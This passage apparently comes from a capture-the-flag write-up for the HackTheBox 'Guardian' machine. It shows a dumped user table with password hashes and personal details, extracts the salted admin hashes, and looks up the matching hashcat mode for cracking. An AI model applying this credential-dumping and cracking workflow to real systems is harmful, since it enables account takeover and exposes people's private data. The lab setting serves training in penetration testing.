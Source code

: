 ```
|      58 | GU7912023          | 8236b81b5f67c798dd5943bca91817558e987f825b6aae72a592c8f1eaeee021 | Carly Buckler        | GU7912023@guardian.htb          | 1991-09-07 | 2298 Hood Place, Springfield, Massachusetts, United States, 01105             | student   | active | 2025-10-24 12:00:02 | 2025-10-24 12:00:02 |
|      59 | GU3622024          | 1c92182d9a59d77ea20c0949696711d8458c870126cf21330f61c2cba6ae6bcf | Maryjo Gration       | GU3622024@guardian.htb          | 1997-04-25 | 1998 Junction Place, Irvine, California, United States, 92619                 | student   | active | 2025-10-24 12:00:02 | 2025-10-24 12:00:02 |
|      60 | GU2002023          | 3c378b73442c2cf911f2a157fc9e26ecde2230313b46876dab12a661169ed6e2 | Paulina Mainwaring   | GU2002023@guardian.htb          | 1993-05-04 | 11891 Markridge Loop, Olympia, Washington, United States, 98506               | student   | active | 2025-10-24 12:00:02 | 2025-10-24 12:00:02 |
|      61 | GU3052023          | 2ef01f607f86387d0c94fc2a3502cc3e6d8715d3b1f124b338623b41aed40cf8 | Curran Foynes        | GU3052023@guardian.htb          | 2000-12-04 | 7021 Cordelia Place, Paterson, New Jersey, United States, 07505               | student   | active | 2025-10-24 12:00:02 | 2025-10-24 12:00:02 |
|      62 | GU1462023          | 585aacf74b22a543022416ed771dca611bd78939908c8323f4f5efef5b4e0202 | Cissy Styan          | GU1462023@guardian.htb          | 1991-01-10 | 1138 Salinas Avenue, Orlando, Florida, United States, 32854                   | student   | active | 2025-10-24 12:00:02 | 2025-10-24 12:00:02 |
+---------+--------------------+------------------------------------------------------------------+----------------------+---------------------------------+------------+-------------------------------------------------------------------------------+-----------+--------+---------------------+---------------------+
62 rows in set (0.00 sec)
```

There's 3 users with **admin** ``user_role`` which is **admin**, **jamil** and **mark**
*p/s:don't forget it included salt from the hash, so we need those to decrypt*

```
┌──(kali㉿kali)-[~/Desktop/HTB/Guardian]
└─$ cat hash.txt 
admin:694a63de406521120d9b905ee94bae3d863ff9f6637d7b7cb730f7da535fd6d6:8Sb)tM1vs1SS
jamil.enockson:c1d8dfaeee103d01a5aec443a98d31294f98c5b4f09a0f02ff4f9a43ee440250:8Sb)tM1vs1SS
mark.pargetter:8623e713bb98ba2d46f335d659958ee658eb6370bc4c9ee4ba1cc6f37f97a10e:8Sb)tM1vs1SS
```
### hashcat

<img width="1116" height="590" alt="image" src="https://github.com/user-attachments/assets/459af29f-d779-435f-a0f4-1f164f421d15" />

Hash format was  `` $password = hash('sha256', $password . $salt);`` from **[createuser.php](http://gitea.guardian.htb/Guardian/portal.guardian.htb/src/branch/main/admin/createuser.php)**

```
 ──(kali㉿kali)-[~/Desktop/HTB/Guardian]
└─$ hashcat -hh | grep -i sha256
   1470 | sha256(utf16le($pass))                                     | Raw Hash
   1410 | sha256($pass.$salt)                                        | Raw Hash salted and/or iterated
   1420 | sha256($salt.$pass)                                        | Raw Hash salted and/or iterated
  22300 | sha256($salt.$pass.$salt)                                  | Raw Hash salted and/or iterated
  20720 | sha256($salt.sha256($pass))                                | Raw Hash salted and/or iterated
  21420 | sha256($salt.sha256_bin($pass))                            | Raw Hash salted and/or iterated
   1440 | sha256($salt.utf16le($pass))                               | Raw Hash salted and/or iterated
  20800 | sha256(md5($pass))                                         | Raw Hash salted and/or iterated
  20710 | sha256(sha256($pass).$salt)                                | Raw Hash salted and/or iterated
```